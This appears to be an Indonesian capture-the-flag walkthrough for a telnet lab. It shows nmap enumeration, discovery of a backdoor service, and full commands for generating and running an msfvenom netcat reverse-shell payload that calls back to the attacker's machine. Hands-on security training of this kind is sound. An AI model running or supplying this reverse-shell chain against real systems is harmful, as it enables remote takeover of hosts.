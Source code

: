 # Understanding Telnet

merupakan protokol aplikasi yang memungkinkan kita untuk dapat terhubung dan mengeksekusi command di remote machine yang dihosting oleh telnet server. Telnet mengirim semua pesan dengan clear text tanpa ada mekanisme keamanan yang spesifik seperti enkripsi, dan kebanyakan sudah digantikan dengan ssh. Kita dapat terhubung dengan telnet server menggunakan command

```shell
telnet <IP> <PORT>
```

# Enumerating Telnet

lakukan port scanning terhadap ip target menggunakan nmap, dalam hal ini kita menggunakan tag all port (`-p-`) dan tag open ports (`--open`) untuk melihat semua port yang kemungkinan terbuka.

```shell
sudo nmap <IP> -p- --open
```

hasilnya

```shell
Connect Scan Timing: About 73.79% done; ETC: 18:50 (0:00:35 remaining)
Nmap scan report for 10.10.59.6
Host is up (0.37s latency).
Not shown: 64306 closed tcp ports (conn-refused), 1228 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8012/tcp open  unknown
```

dari hasil yang didapat, dapat dilihat bahwa ada 1 port terbuka dari semua port yang ada, namun tidak ada keterangan service pada port tersebut. Jika kita coba untuk menghilangkan `-p-` juga tidak akan ada port yang terbuka, maka kita dapat melakukan investigasi lebih lanjut pada port `8012` tersebut. Kita dapat melakukan aggresive scanning dengan tag A (`-A`)

```shell
nmap -p8012 <IP> -A
```

hasilnya adalah sebagai berikut

```
...
PORT     STATE SERVICE VERSION
8012/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    SKIDY'S BACKDOOR. Type .HELP to view commands
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8012-TCP:V=7.94%I=7%D=9/28%Time=65157412%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20command
SF:s\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\
SF:x20view\x20commands\n")%r(GetRequest,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\
SF:x20\.HELP\x20to\x20view\x20commands\n")%r(HTTPOptions,2E,"SKIDY'S\x20BA
SF:CKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(RTSPRequest,
SF:2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n
SF:")%r(RPCCheck,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view
SF:\x20commands\n")%r(DNSVersionBindReqTCP,2E,"SKIDY'S\x20BACKDOOR\.\x20Ty
SF:pe\x20\.HELP\x20to\x20view\x20commands\n")%r(DNSStatusRequestTCP,2E,"SK
SF:IDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(H
SF:elp,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20comman
SF:ds\n")%r(SSLSessionReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20t
SF:o\x20view\x20commands\n")%r(TerminalServerCookie,2E,"SKIDY'S\x20BACKDOO
SF:R\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(TLSSessionReq,2E,
SF:"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%
SF:r(Kerberos,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x2
SF:0commands\n")%r(SMBProgNeg,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\
SF:x20to\x20view\x20commands\n")%r(X11Probe,2E,"SKIDY'S\x20BACKDOOR\.\x20T
SF:ype\x20\.HELP\x20to\x20view\x20commands\n")%r(FourOhFourRequest,2E,"SKI
SF:DY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(LP
SF:DString,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20co
SF:mmands\n")%r(LDAPSearchReq,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\
SF:x20to\x20view\x20commands\n")%r(LDAPBindReq,2E,"SKIDY'S\x20BACKDOOR\.\x
SF:20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(SIPOptions,2E,"SKIDY'S
SF:\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(LANDes
SF:k-RC,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20comma
SF:nds\n")%r(TerminalServer,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x2
SF:0to\x20view\x20commands\n")%r(NCP,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20
SF:\.HELP\x20to\x20view\x20commands\n");
...
```

dari hasil enumerasi tersebut kita mendapatkan informasi bahwa terdapat 1 port yang terbuka yaitu port `8012`, dimana port ini berguna sebagai `backdoor` milik `SKIDY`.

# Exploiting Telnet

konek ke service telnet dengan informasi yang telah didapat saat proses Enumerasi. kita dapat menggunakan 

```shell
telnet <IP> 8012
```

saat kita baru masuk, akan ada welcome message seperti berikut

```shell
...
SKIDY'S BACKDOOR. Type .HELP to view commands
```

kita dapat menggunakan command `.HELP` untuk melihat informasi yang tersedia, dan yang kita dapat adalah

```shell
.HELP: View commands
 .RUN <command>: Execute commands
.EXIT: Exit
```

ketika kita lakukan `.RUN <command>` tidak keluar apapun, dan itu cukup aneh. Maka kita dapat mengecek apakah apa yang kita ketik dapat di exec sebagai system command, dengan cara membuat `tcpdump` listener pada local machine

```shell
sudo tcpdump ip proto \\icmp -i tun0
```

selanjutnya kita dapat melakukan ping ke target machine dengan cara

```shell
ping <IP target> -c 1
```

jika ping berhasil, maka pada tcpdump akan menghasilkan output

```shell
...
0:18:58.526706 IP 10.4.38.153 > 10.10.102.193: ICMP echo request, id 56179, seq 1, length 64
20:18:58.900791 IP 10.10.102.193 > 10.4.38.153: ICMP echo reply, id 56179, seq 1, length 64
```

hal ini menandakan kita dapat exec command di target box dan juga terhubung dengan local machine kita. Selanjutnya kita akan melakukan reverse shell untuk mewujudkan hal tersebut. Kita gunakan `msfvenom` untuk generate command yang digunakan untuk reverse shell dengan cara

```shell
msfvenom -p cmd/unix/reverse_netcat lhost=<IP tun0 local> lport=4444 R
```

dimana `-p` berarti payload yang akan digunakan, `lhost` berarti IP tun0 pada local machine yang kita gunakan, dan `lport` merupakan port yang digunakan untuk target terhubung ke local machine, dan `R` untuk export hasil generate payload dalam bentuk raw format. Nantinya akan menghasilkan payload berikut

```shell
...
mkfifo /tmp/sfvwx; nc <IP tun0 local> 4444 0</tmp/sfvwx | /bin/sh >/tmp/sfvwx 2>&1; rm /tmp/sfvwx
```

setelah kita dapatkan payload, kita akan gunakan netcat listener untuk pondasi reverse shell nya di local machine.

```shell
nc -lvp 4444
```

selanjutnya kita run payload hasil msfvenom tadi di target box dengan cara

```shell
.RUN mkfifo /tmp/sfvwx; nc <IP tun0 local> 4444 0</tmp/sfvwx | /bin/sh >/tmp/sfvwx 2>&1; rm /tmp/sfvwx
```

jika berhasil, nantinya netcat akan mendapatkan koneksi ke target, dan kita dapat memasukkan command disana untuk mendapatkan flag dengan command `ls` dan `cat`.
